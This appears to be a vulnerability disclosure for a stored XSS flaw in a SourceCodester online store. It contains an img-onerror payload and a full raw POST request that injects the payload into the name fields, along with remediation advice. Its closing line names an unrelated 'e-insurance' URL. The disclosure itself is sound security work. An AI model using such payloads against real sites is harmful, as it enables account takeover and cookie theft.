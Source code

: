 Stored Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Last Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Last Name
    Severity: High
    Affected URL: http://localhost/cbpos/classes/Master.php?f=register
    Affected Parameter: Last Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Last Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Last Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/classes/Master.php?f=register

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the lname parameter as shown below and send the request to the server.

firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40


In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1ZoSWqudhD-uPAmaU_E04IMSdm7VBI_fu/view?usp=drive_link
Payload:

firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40


Request:

POST /cbpos/classes/Master.php?f=register HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 227
Origin: http://localhost
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://localhost/cbpos/
Cookie: PHPSESSID=p74o2f7lqfitvojtejdnshjrau; __insuarance__logged=1; __insuarance__key=7273YL1ZQOZ448QSLS6V
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Last name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.